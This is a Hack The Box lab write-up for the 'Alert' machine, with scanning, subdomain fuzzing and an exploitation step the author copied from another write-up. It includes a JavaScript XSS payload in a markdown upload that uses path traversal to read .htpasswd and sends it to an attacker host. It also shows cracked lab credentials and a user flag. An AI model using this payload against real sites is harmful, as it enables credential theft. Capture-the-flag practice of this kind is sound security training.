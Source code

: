 
HTB : [[Machines]]

**Date:** 10/01/25  
**Target IP:** 10.10.11.44

---
### **Initial Scanning**

#### **Nmap**

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
### **Exploration and Enumeration**

Navigated to `alert.htb` on Port 80 and I'm presented with 4 pages :
- Markdown Viewer ( http://alert.htb/index.php?page=alert )
- Contact Page with a form.
- About Us Page
- Donate Page with a form that doesn't work.

On submitting a demo .md file we are sent to /visualizer.php where we can view the parsed markdown and are provided an option to obtain a shareable link to the parsed markdown. 

Initial inclination is that a file upload vulnerability is present.

#### **Subdomain Enumeration**

``` bash
❯ ffuf -u http://alert.htb/ -H "Host: FUZZ.alert.htb" -w /usr/share/wordlists/subdomains-10000.txt -ac
```

```bash
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 209ms]
```

Here is where everything went beyond my abilities.

---
### **Exploitation**

The following solution for Exploitation and Gaining Access was obtained from a write-up.

JavaScript payloads may be embedded within .md files. We can utilize this to read sensitive files on the web server. Since the web server is Apache and hosting a website written in .php, the sensitive file of interest should be ***.htpasswd***.

Attempting to make the webpage reflect the contents of a sensitive file is not possible due to the way the webpage is displaying the parsed markdown text. Hence, an alternative to this can be adopted in the way of exfiltrating the contents to an HTTP server set up on the attacking machine.

This can be achieved through uploading the following `test.md` file :

``` js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://<attacker_ip>:8888/?text=" + encodeURIComponent(data));
  });
</script>
```

Here, we call the statistics subdomain discovered earlier as the standard domain does not provide us with the necessary response.

Viewing the above on the webpage triggers the following response on our HTTP server :

```
10.10.14.63 - - [10/Jan/2025 15:35:07] "GET /?text=%0A HTTP/1.1" 200 -
```

We can then enter the share link functionality on the website and submit the obtained share link into the contact form which causes the following response to be sent to our HTTP server :

```
10.10.11.44 - - [10/Jan/2025 16:27:12] "GET /?text=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

We obtain the following credentials after URL decoding and cracking the hash : 

**albert : manchesterunited**

I can now SSH into this user and obtain the **user flag** :

**6b8a1491b31410fd81c62609bff78c3d**

---
### **Post-Exploitation**



---
### **Summary**

- Albert User Credentials : `albert : manchesterunited`
- User Flag ( `/home/albert/user.txt` ) : **6b8a1491b31410fd81c62609bff78c3d**
- 






